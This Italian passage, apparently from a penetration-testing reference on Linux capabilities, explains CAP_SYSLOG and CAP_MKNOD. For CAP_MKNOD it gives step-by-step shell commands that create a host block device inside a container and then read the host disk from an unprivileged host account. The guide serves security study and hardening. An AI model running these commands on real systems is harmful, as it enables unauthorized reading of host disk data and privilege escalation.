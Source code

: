 Inoltre, **CAP_SYSLOG** consente di accedere all'output di `dmesg` quando `dmesg_restrict` è impostato su 1. Nonostante questi cambiamenti, **CAP_SYS_ADMIN** mantiene la capacità di eseguire operazioni `syslog` a causa di precedenti storici.

## CAP_MKNOD

[**CAP_MKNOD**](https://man7.org/linux/man-pages/man7/capabilities.7.html) estende la funzionalità della chiamata di sistema `mknod` oltre alla creazione di file regolari, FIFO (pipe nominate) o socket di dominio UNIX. Consente specificamente la creazione di file speciali, che includono:

- **S_IFCHR**: File speciali di carattere, che sono dispositivi come terminali.
- **S_IFBLK**: File speciali a blocchi, che sono dispositivi come dischi.

Questa capacità è essenziale per i processi che richiedono la possibilità di creare file di dispositivo, facilitando l'interazione diretta con l'hardware tramite dispositivi a carattere o a blocchi.

È una capacità predefinita di docker ([https://github.com/moby/moby/blob/master/oci/caps/defaults.go#L6-L19](https://github.com/moby/moby/blob/master/oci/caps/defaults.go#L6-L19)).

Questa capacità consente di effettuare escalation di privilegi (attraverso la lettura completa del disco) sull'host, a queste condizioni:

1. Avere accesso iniziale all'host (non privilegiato).
2. Avere accesso iniziale al container (privilegiato (EUID 0) e `CAP_MKNOD` efficace).
3. Host e container devono condividere lo stesso namespace utente.

**Passaggi per creare e accedere a un dispositivo a blocchi in un container:**

1. **Sull'Host come Utente Standard:**

- Determina il tuo attuale ID utente con `id`, ad esempio, `uid=1000(standarduser)`.
- Identifica il dispositivo target, ad esempio, `/dev/sdb`.

2. **All'interno del Container come `root`:**
```bash
# Create a block special file for the host device
mknod /dev/sdb b 8 16
# Set read and write permissions for the user and group
chmod 660 /dev/sdb
# Add the corresponding standard user present on the host
useradd -u 1000 standarduser
# Switch to the newly created user
su standarduser
```
3. **Di nuovo sull'Host:**
```bash
# Locate the PID of the container process owned by "standarduser"
# This is an illustrative example; actual command might vary
ps aux | grep -i container_name | grep -i standarduser
# Assuming the found PID is 12345
# Access the container's filesystem and the special block device
head /proc/12345/root/dev/sdb
```
Questo approccio consente all'utente standard di accedere e potenzialmente leggere dati da `/dev/sdb` attraverso il contenitore, sfruttando i namespace utente condivisi e i permessi impostati sul dispositivo.
